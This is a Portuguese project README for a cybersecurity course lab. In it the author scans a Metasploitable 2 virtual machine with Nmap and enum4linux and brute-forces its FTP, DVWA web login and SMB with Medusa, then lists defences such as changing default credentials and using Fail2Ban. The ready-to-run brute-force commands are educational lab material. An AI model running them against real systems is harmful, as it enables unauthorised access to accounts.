



# Ataque de Força Bruta com Medusa

Projeto prático para o desafio de Cibersegurança da DIO. O objetivo foi configurar um laboratório local e simular ataques de brute force para entender como eles funcionam e como nos proteger.

## Ambiente
* **Atacante:** Kali Linux
* **Alvo:** Metasploitable 2 (IP: 192.168.56.101)
* **Rede:** Host-only (VirtualBox)

## Passo a Passo
Primeiro, fiz um scan com o Nmap para descobrir as portas abertas. Depois, criei wordlists simples com usuários e senhas comuns e usei o Medusa para tentar quebrar o acesso do FTP, da aplicação web (DVWA) e do SMB.

Aqui estão os comandos principais que rodaram no terminal:

```bash
# Scan das portas principais
nmap -sV -p 21,22,80,445,139 192.168.56.101

# Força bruta no FTP
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6

# Força bruta no DVWA (Web)
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \ -m PAGE: '/dvwa/login.php' \ -m FORM: 'username=USER&password=PASS&Login=Login' \ -m 'FAIL=Login failed' -t 6

# Enumeração e ataque no SMB
enum4linux -a 192.168.56.101 | tee enum4_output.txt
medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```

## Evidências (Prints)


*Verificando o IP da máquina vulnerável.*


*Meu histórico mostrando a criação das wordlists e execução dos testes.*


*Medusa encontrando a senha correta no serviço SMB.*

## Como prevenir?
Na prática, para evitar que um ataque simples como esse funcione, bastam algumas configurações básicas:
1. **Não usar senhas padrão:** Alterar imediatamente qualquer credencial que venha de fábrica (como `admin/admin`).
2. **Bloqueio por falhas:** Usar ferramentas como o Fail2Ban para bloquear temporariamente o IP de quem errar a senha muitas vezes seguidas.
3. **Desativar o que não usa:** Se o servidor não precisa de FTP, a porta 21 nem deveria estar aberta.
